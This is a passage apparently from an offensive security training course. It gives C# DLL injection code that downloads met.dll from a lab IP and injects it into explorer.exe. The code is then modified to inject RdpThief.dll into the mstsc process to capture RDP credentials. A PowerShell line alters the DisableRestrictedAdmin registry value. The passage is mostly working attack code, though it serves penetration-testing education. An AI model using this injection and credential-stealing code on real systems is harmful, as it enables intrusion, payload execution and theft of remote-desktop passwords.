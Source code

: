 ```
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {

            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            String dllName = dir + "\\met.dll";

            WebClient wc = new WebClient();
            wc.DownloadFile("http://192.168.119.120/met.dll", dllName);

            Process[] expProc = Process.GetProcessesByName("explorer");
            int pid = expProc[0].Id;

            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
        }
    }
}
```

> Listing 24 - DLL injection code

We'll obviously need to modify this code. First, we'll need a compiled version of the RdpThief DLL, which is located on the appsrv01 machine in the C:\Tools folder.

To make our proof of concept work, we'll update the code in Listing 24 to use the static path of the RdpThief DLL. In addition, we want to locate the "mstsc" process instead of "explorer", which gives us this updated code:

```
static void Main(string[] args)
{
  String dllName = "C:\\Tools\\RdpThief.dll";
  Process[] mstscProc = Process.GetProcessesByName("mstsc");
  int pid = mstscProc[0].Id;

  IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
  IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
  IntPtr outSize;
  Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
  IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
  IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
}
```


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit